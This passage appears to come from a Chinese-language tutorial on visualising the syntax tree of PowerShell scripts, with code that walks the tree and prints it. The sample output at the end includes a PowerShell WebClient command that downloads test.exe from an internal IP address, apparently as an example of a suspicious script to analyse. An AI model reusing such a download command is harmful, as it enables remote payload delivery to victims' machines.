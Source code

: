 ```

  # 创建Scipt代码块
  $code = [ScriptBlock]::Create($content)

  # 提取AST
  $code.Ast.FindAll( { $true }, $true) |
  ForEach-Object {
    # take unique object hash as key
    $id = 0;
    if($_.Parent) {
      $id = $_.Parent.GetHashCode()
    }
    Write-Debug('{0}:{1}' -f $_.GetType().Name,$id)

    if ($hierarchy.ContainsKey($id) -eq $false) {
      $hierarchy[$id] = [System.Collections.ArrayList]@()
    }
    $null = $hierarchy[$id].Add($_)
    # add ast object to parent
  }
  
  # 递归可视化树
  function Visualize-Tree($Id, $Indent = 0)
  {
    # 每级缩进
    $space = '--' * $indent
    $hierarchy[$id] | ForEach-Object {
      # 输出AST对象
      '{0}[{1}]: {2}' -f $space, $_.GetType().Name, $_.Extent
    
      # 获取当前AST对象的id
      $newid = $_.GetHashCode()
      # 递归其子节点（if any)
      if ($hierarchy.ContainsKey($newid)) {
        Visualize-Tree -id $newid -indent ($indent + 1)
      }
    }
  }

  # 使用AST根对象开始可视化
  Visualize-Tree -id $code.Ast.GetHashCode()
  return $result
}

Convert-CodeToAst -str .\data\example-001.ps1

```

此时输出结果如下图所示：

假设存在“example-002.ps2”文件。


[NamedBlockAst]: $a = 1
[NamedBlockAst]: powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe')